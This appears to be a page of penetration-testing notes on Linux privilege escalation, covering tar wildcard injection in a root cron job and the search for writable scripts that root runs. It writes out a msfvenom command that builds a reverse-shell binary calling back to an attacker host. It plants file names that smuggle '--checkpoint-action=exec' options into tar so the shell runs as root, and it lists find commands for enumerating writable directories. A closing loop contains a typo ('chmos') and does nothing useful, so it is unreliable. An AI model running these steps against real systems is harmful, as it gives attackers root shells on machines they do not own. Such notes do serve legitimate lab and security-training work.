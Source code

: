 
</div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- Check the scripts with tar, 7z, rsync, etc.
- Search a `*` like
```shell
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
- GTFOBins, Note that tar has command line options that let you **run** other **commands** as part of a checkpoint feature.
- Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`
- Put it to `/home/user`
- Make it executable:
`chmod +x /home/user/shell.elf`
- Create these two files in /home/user:
Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.
```sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
- Listen on attacker machine and wait for a cron run

</div></div>

## Writable scripts invoked by root

### Look for scripts with root permisions
```sh
find / -name *.sh 2>/dev/null | xargs ls -l
```

```shell
#World writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

# World executable folder
find / -perm -o x -type d 2>/dev/null

# World writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```

if a file is found, in temp create a script and exec the code
```sh
#!/bin/bash
	while true; do
		echo 'chmos u+s >> /tmpa.bash'
	done
```
## Passwords & keys
### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">
